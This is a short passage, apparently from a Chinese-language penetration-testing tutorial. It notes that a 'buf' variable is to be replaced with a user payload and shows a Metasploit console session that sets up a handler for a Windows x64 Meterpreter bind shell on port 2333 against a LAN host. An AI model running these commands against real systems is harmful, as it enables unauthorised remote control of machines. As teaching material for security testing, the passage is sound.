 
![](image/windows-23.png)

> [!NOTE]
>
> buf 要替换为 USER_PAYLOAD

使用 MSF

```
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 2333
lport => 2333
msf5 exploit(multi/handler) > set rhost 192.168.1.110
rhost => 192.168.1.110
msf5 exploit(multi/handler) > exploit
```
